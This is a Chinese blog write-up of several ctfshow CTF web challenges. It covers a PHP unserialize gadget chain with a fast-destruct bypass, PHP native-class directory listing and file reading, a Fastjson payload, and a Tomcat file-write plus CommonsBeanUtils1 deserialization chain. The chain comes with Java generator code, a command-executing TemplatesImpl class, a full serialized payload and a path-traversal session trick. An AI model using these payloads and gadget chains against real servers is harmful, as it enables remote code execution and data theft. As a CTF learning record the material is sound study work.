






+++
title = "ctfshow卷王杯"
slug = "ctfshow-king-of-involution-cup"
description = "刷"
date = "2025-01-11T10:44:54"
lastmod = "2025-01-11T10:44:54"
image = ""
license = ""
categories = ["ctfshow"]
tags = ["php", "Fastjson"]
+++

## easy unserialize

```php
<?php
include("./HappyYear.php");

class one {
    public $object;

    public function MeMeMe() {
        array_walk($this, function($fn, $prev){
            if ($fn[0] === "Happy_func" && $prev === "year_parm") {
                global $talk;
                echo "$talk"."</br>";
                global $flag;
                echo $flag;
            }
        });
    }

    public function __destruct() {
        @$this->object->add();
    }

    public function __toString() {
        return $this->object->string;
    }
}

class second {
    protected $filename;

    protected function addMe() {
        return "Wow you have sovled".$this->filename;
    }

    public function __call($func, $args) {
        call_user_func([$this, $func."Me"], $args);
    }
}

class third {
    private $string;

    public function __construct($string) {
        $this->string = $string;
    }

    public function __get($name) {
        $var = $this->$name;
        $var[$name]();
    }
}

if (isset($_GET["ctfshow"])) {
    $a=unserialize($_GET['ctfshow']);
    throw new Exception("高一新生报道");
} else {
    highlight_file(__FILE__);
}
```

一个反序列化其中就是一个GC机制绕过的考点，我在[GC机制绕过](https://baozongwi.xyz/2024/09/14/php-GC%E5%9B%9E%E6%94%B6%E6%9C%BA%E5%88%B6%E4%BB%A5%E5%8F%8A%E5%B8%B8%E8%A7%81%E5%88%A9%E7%94%A8%E5%88%A9%E7%94%A8%E6%96%B9%E5%BC%8F/#Demo-1-1) 中写过

```
one::destruct->two::call->two::addMe->one::toString->third::get->one::MeMeMe
```

首先这里私有属性必须得直接赋值，然后`MeMeMe`又在遍历数组(键值对可以写数组也可以直接赋值)，`array_walk`对数组进行遍历

```php
<?php
class one {
    public $year_parm=array("Happy_func");
    public $object;


}

class second {
    public $filename;

}

class third {
    private $string;

}

$a=new one();
$a->object=new second();
$a->object->filename=new one();
$a->object->filename->object=new third(array("string"=>[new one(),"MeMeMe"]));
$b=array($a,null);
echo urlencode(serialize($b));
```

但是这样子仍然没有打通，后面想到可能要把整个代码包含了才可以

```php
<?php

class one {
    //public $year_parm=array("Happy_func");
    public $year_parm="Happy_func";
    public $object;


    public function MeMeMe() {
        array_walk($this, function($fn, $prev){
            if ($fn[0] === "Happy_func" && $prev === "year_parm") {
                global $talk;
                echo "$talk"."</br>";
                global $flag;
                echo $flag;
            }
        });
    }

    public function __destruct() {
        @$this->object->add();
    }

    public function __toString() {
        return $this->object->string;
    }
}

class second {
    public $filename;

    protected function addMe() {
        return "Wow you have sovled".$this->filename;
    }

    public function __call($func, $args) {
        call_user_func([$this, $func."Me"], $args);
    }
}

class third {
    private $string;

    public function __construct($string) {
        $this->string = $string;
    }

    public function __get($name) {
        $var = $this->$name;
        $var[$name]();
    }
}

$a=new one();
$a->object=new second();
$a->object->filename=new one();
$a->object->filename->object=new third(array("string"=>[new one(),"MeMeMe"]));
$b = array($a,NULL);
echo urlencode(serialize($b));
```

然后修改一下payload改成0进行`fast-destruct`

```
?ctfshow=a%3A2%3A%7Bi%3A0%3BO%3A3%3A%22one%22%3A2%3A%7Bs%3A9%3A%22year_parm%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A10%3A%22Happy_func%22%3B%7Ds%3A6%3A%22object%22%3BO%3A6%3A%22second%22%3A1%3A%7Bs%3A8%3A%22filename%22%3BO%3A3%3A%22one%22%3A2%3A%7Bs%3A9%3A%22year_parm%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A10%3A%22Happy_func%22%3B%7Ds%3A6%3A%22object%22%3BO%3A5%3A%22third%22%3A1%3A%7Bs%3A13%3A%22%00third%00string%22%3Ba%3A1%3A%7Bs%3A6%3A%22string%22%3Ba%3A2%3A%7Bi%3A0%3BO%3A3%3A%22one%22%3A2%3A%7Bs%3A9%3A%22year_parm%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A10%3A%22Happy_func%22%3B%7Ds%3A6%3A%22object%22%3BN%3B%7Di%3A1%3Bs%3A6%3A%22MeMeMe%22%3B%7D%7D%7D%7D%7D%7Di%3A0%3BN%3B%7D
```

不能开F12直接写个小发包

```python
import requests
url="http://f6c6c851-bed1-47a6-8a01-133b96ce50d5.challenge.ctf.show/"
payload="?ctfshow=a%3A2%3A%7Bi%3A0%3BO%3A3%3A%22one%22%3A2%3A%7Bs%3A9%3A%22year_parm%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A10%3A%22Happy_func%22%3B%7Ds%3A6%3A%22object%22%3BO%3A6%3A%22second%22%3A1%3A%7Bs%3A8%3A%22filename%22%3BO%3A3%3A%22one%22%3A2%3A%7Bs%3A9%3A%22year_parm%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A10%3A%22Happy_func%22%3B%7Ds%3A6%3A%22object%22%3BO%3A5%3A%22third%22%3A1%3A%7Bs%3A13%3A%22%00third%00string%22%3Ba%3A1%3A%7Bs%3A6%3A%22string%22%3Ba%3A2%3A%7Bi%3A0%3BO%3A3%3A%22one%22%3A2%3A%7Bs%3A9%3A%22year_parm%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A10%3A%22Happy_func%22%3B%7Ds%3A6%3A%22object%22%3BN%3B%7Di%3A1%3Bs%3A6%3A%22MeMeMe%22%3B%7D%7D%7D%7D%7D%7Di%3A0%3BN%3B%7D"
response =requests.get(url=url+payload)
print(response.text)
```

## easyweb

查看源码`?source`

```php
<?php
error_reporting(0);
if(isset($_GET['source'])){
    highlight_file(__FILE__);
    echo "\$flag_filename = 'flag'.md5(???).'php';";
    die();
}
if(isset($_POST['a']) && isset($_POST['b']) && isset($_POST['c'])){
    $c = $_POST['c'];
    $count[++$c] = 1;
    if($count[] = 1) {
        $count[++$c] = 1;
        print_r($count);
        die();
    }else{
        $a = $_POST['a'];
        $b = $_POST['b'];
        echo new $a($b);
    }
}
?>
```

首先可以看到是一个原生类的调用，我们先要进行溢出，使得进入else，然后列目录等操作，那么直接先传入`int`最大值`9223372036854775806`，然后进行读取，使用通配符不然无法锁定这个md5

```
c=9223372036854775806&a=DirectoryIterator&b=glob://flag[a-z0-9]*.php
```

然后进行文件读取即可

```
c=9223372036854775806&a=SplFileObject&b=flag56ea8b83122449e814e0fd7bfb5f220a.php
```

## happyFastjson

进来路由控制器还有配置文件什么的都没有找到，直接搜索框查找`flag`，如下图



然后进去看了一下发现直接就触发得到`flag`



然后找触发链，但是我搜`flag`都可以搜出来很多，所以直接看这个关键词`Hacker`来找，发现三处



但是看了这几个文件还是一无所获，找到触发要求在一篇文章里面

**get开头的方法要求如下：**

- 方法名长度大于等于4
- 非静态方法
- 以get开头且第4个字母为大写
- 无传入参数
- 返回值类型继承自Collection Map AtomicBoolean AtomicInteger AtomicLong



然后我又开始搜索`toString`方法，就找不到了，看来还是不太明白，以后会了再写吧

```
poc={
    {
        '@type':"com.alibaba.fastjson.JSONObject",
        'a':
        {
            "@type":"com.ctfshow.happyfjs.Beans.FlagBean","flag":{"@type":"java.util.HashMap"}        }
    }:'b'
} 
```

## happyTomcat

首先就是任意文件读取，使用物理路径进行读取

```
?path=webapps/ROOT/index.jsp
```

```jsp
<%-- Created by IntelliJ IDEA. User: y4tacker Date: 2022/2/4 Time: 8:52 PM To change this template use File | Settings | File Templates. --%>
<%@ page import="java.io.File" %>
<%@ page import="java.nio.file.Files" %>
<%@ page import="java.nio.file.Paths" %>
<%@ page import="java.util.Base64" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%
    String path = request.getParameter("path");
    String write = request.getParameter("write");
    String content = request.getParameter("content");

    if (path == null && write == null && content == null) {
        out.println("或许可能是?path=index.jsp，但是仔细看报错呢");
    }

    if (path != null) {
        File file = new File("/usr/local/tomcat/" + path);
        
        if (file.getAbsolutePath().startsWith("/usr/local/tomcat") && !path.contains("..")) {
            if (file.isDirectory()) {
                File[] files = file.listFiles();
                for (File file1 : files) {
                    out.println(file1.getName());
                }
            } else {
                byte[] bytes = Files.readAllBytes(Paths.get(file.getAbsolutePath()));
                out.println(new String(bytes));
            }
        } else {
            out.println("Hacker???");
        }
    }

    if (write != null && content != null) {
        if (!write.contains("jsp") && !write.contains("xml")) {
            Files.write(Paths.get(write), Base64.getDecoder().decode(content));
        } else {
            out.println("Ha???");
        }
    }
%>
```

随便读取一个文件报错得知是`Tomcat`，读取上下文配置文件(`web.xml`我没读到)

```
?path=conf/context.xml
WEB-INF/web.xml WEB-INF/tomcat-web.xml
```

```xml
<!--web.xml-->
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
         version="4.0">
</web-app>
```

```xml
<!--context.xml-->
<?xml version="1.0" encoding="UTF-8"?>
<!--
  Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<!-- The contents of this file will be loaded for each web application -->
<Context>

    <!-- Default set of monitored resources. If one of these changes, the    -->
    <!-- web application will be reloaded.                                   -->
    <WatchedResource>WEB-INF/web.xml</WatchedResource>
    <WatchedResource>WEB-INF/tomcat-web.xml</WatchedResource>
    <Manager className="org.apache.catalina.session.PersistentManager"
             debug="0"
             saveOnRestart="false"
             maxActiveSession="-1"
             minIdleSwap="-1"
             maxIdleSwap="-1"
             maxIdleBackup="-1">
        <Store className="org.apache.catalina.session.FileStore" directory="./session" />
    </Manager>

    <!-- Uncomment this to disable session persistence across Tomcat restarts -->
    <!--
    <Manager pathname="" />
    -->
</Context>
```

其中上下文配置文件使用了`FileStore`来存储`session`

```
org/apache/catalina/session/FileStore
```

没看到啥，可以试着读取依赖的jar包

```
webapps/ROOT/WEB-INF/lib/
```

得到了

```
commons-logging-1.1.1.jar
commons-beanutils-1.9.2.jar
commons-collections-3.2.1.jar
```

直接打CB1

```java
package com.summer.cb1;

import com.summer.util.SerializeUtil;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;

import java.util.Base64;
import java.util.Collections;
import java.util.PriorityQueue;

public class CommonsBeanUtils1 {
    public static void main(String[] args) throws Exception{
        //new CommonsBeanUtils1().getShiroPayload();
        cb1();
    }
    public static void cb1() throws Exception{
        byte[] evilCode = SerializeUtil.getEvilCode();
        TemplatesImpl templates = new TemplatesImpl();
        SerializeUtil.setFieldValue(templates,"_bytecodes",new byte[][]{evilCode});
        SerializeUtil.setFieldValue(templates,"_name","22222");
        SerializeUtil.setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());

        BeanComparator beanComparator = new BeanComparator("outputProperties");

        PriorityQueue priorityQueue = new PriorityQueue(2, beanComparator);


        SerializeUtil.setFieldValue(priorityQueue,"queue",new Object[]{templates,templates});
        SerializeUtil.setFieldValue(priorityQueue,"size",2);
        byte[] bytes = SerializeUtil.serialize(priorityQueue);
        System.out.println(new String(Base64.getEncoder().encode(bytes)));
        //SerializeUtil.unserialize(bytes);
    }
    public byte[] getShiroPayload() throws Exception{
        byte[] evilCode = SerializeUtil.getEvilCode();
        TemplatesImpl templates = new TemplatesImpl();
        SerializeUtil.setFieldValue(templates,"_bytecodes",new byte[][]{evilCode});
        SerializeUtil.setFieldValue(templates,"_name","22222");
        SerializeUtil.setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());

        BeanComparator beanComparator = new BeanComparator("outputProperties",String.CASE_INSENSITIVE_ORDER);
        //BeanComparator beanComparator = new BeanComparator("outputProperties", Collections.reverseOrder());

        PriorityQueue priorityQueue = new PriorityQueue(2, beanComparator);


        SerializeUtil.setFieldValue(priorityQueue,"queue",new Object[]{templates,templates});
        SerializeUtil.setFieldValue(priorityQueue,"size",2);
        byte[] bytes = SerializeUtil.serialize(priorityQueue);

        //System.out.println(new String(Base64.getEncoder().encode(bytes)));
        //SerializeUtil.unserialize(bytes);
        return bytes;
    }

}
```

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class Exploit extends AbstractTranslet {
    static {
        try {
            String[] cmd = {"/bin/sh","-c","cat /flag  > /usr/local/tomcat/webapps/ROOT/1.txt"};
            //String[] cmd = {"calc"};
            Runtime.getRuntime().exec(cmd);
        }
        catch (Exception e){

        }

    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

```
?write=/tmp/22222.session&content=rO0ABXNyABdqYXZhLnV0aWwuUHJpb3JpdHlRdWV1ZZTaMLT7P4KxAwACSQAEc2l6ZUwACmNvbXBhcmF0b3J0ABZMamF2YS91dGlsL0NvbXBhcmF0b3I7eHAAAAACc3IAK29yZy5hcGFjaGUuY29tbW9ucy5iZWFudXRpbHMuQmVhbkNvbXBhcmF0b3LjoYjqcyKkSAIAAkwACmNvbXBhcmF0b3JxAH4AAUwACHByb3BlcnR5dAASTGphdmEvbGFuZy9TdHJpbmc7eHBzcgAqamF2YS5sYW5nLlN0cmluZyRDYXNlSW5zZW5zaXRpdmVDb21wYXJhdG9ydwNcfVxQ5c4CAAB4cHQAEG91dHB1dFByb3BlcnRpZXN3BAAAAANzcgA6Y29tLnN1bi5vcmcuYXBhY2hlLnhhbGFuLmludGVybmFsLnhzbHRjLnRyYXguVGVtcGxhdGVzSW1wbAlXT8FurKszAwAISQANX2luZGVudE51bWJlckkADl90cmFuc2xldEluZGV4WgAVX3VzZVNlcnZpY2VzTWVjaGFuaXNtTAALX2F1eENsYXNzZXN0ADtMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvSGFzaHRhYmxlO1sACl9ieXRlY29kZXN0AANbW0JbAAZfY2xhc3N0ABJbTGphdmEvbGFuZy9DbGFzcztMAAVfbmFtZXEAfgAETAARX291dHB1dFByb3BlcnRpZXN0ABZMamF2YS91dGlsL1Byb3BlcnRpZXM7eHAAAAAA%2F%2F%2F%2F%2FwBwdXIAA1tbQkv9GRVnZ9s3AgAAeHAAAAABdXIAAltCrPMX%2BAYIVOACAAB4cAAABcLK%2Frq%2BAAAAMgAyCgAJACEKACIAIwcAJAgAJQgAJggAJwoAIgAoBwApBwAqAQAJdHJhbnNmb3JtAQByKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO1tMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBABhMZXZpbC9FdmlsVGVtcGxhdGVzSW1wbDsBAAhkb2N1bWVudAEALUxjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NOwEACGhhbmRsZXJzAQBCW0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQAKRXhjZXB0aW9ucwcAKwEApihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAhpdGVyYXRvcgEANUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7AQAHaGFuZGxlcgEAQUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQAGPGluaXQ%2BAQADKClWBwAsAQAKU291cmNlRmlsZQEAFkV2aWxUZW1wbGF0ZXNJbXBsLmphdmEMABwAHQcALQwALgAvAQAQamF2YS9sYW5nL1N0cmluZwEACS9iaW4vYmFzaAEAAi1jAQAwY2F0IC9mbGFnID4gL3Vzci9sb2NhbC90b21jYXQvd2ViYXBwcy9ST09ULzEudHh0DAAwADEBABZldmlsL0V2aWxUZW1wbGF0ZXNJbXBsAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAE2phdmEvbGFuZy9FeGNlcHRpb24BABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAoKFtMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwAhAAgACQAAAAAAAwABAAoACwACAAwAAAA%2FAAAAAwAAAAGxAAAAAgANAAAABgABAAAACgAOAAAAIAADAAAAAQAPABAAAAAAAAEAEQASAAEAAAABABMAFAACABUAAAAEAAEAFgABAAoAFwACAAwAAABJAAAABAAAAAGxAAAAAgANAAAABgABAAAADAAOAAAAKgAEAAAAAQAPABAAAAAAAAEAEQASAAEAAAABABgAGQACAAAAAQAaABsAAwAVAAAABAABABYAAQAcAB0AAgAMAAAAUQAFAAEAAAAfKrcAAbgAAga9AANZAxIEU1kEEgVTWQUSBlO2AAdXsQAAAAIADQAAAA4AAwAAAA8ABAARAB4AEgAOAAAADAABAAAAHwAPABAAAAAVAAAABAABAB4AAQAfAAAAAgAgcHQAEkhlbGxvVGVtcGxhdGVzSW1wbHB3AQB4cQB%2BAA54 
```

然后改`session`

```
../../../../../../../../../../../../tmp/22222
```



访问`1.txt`


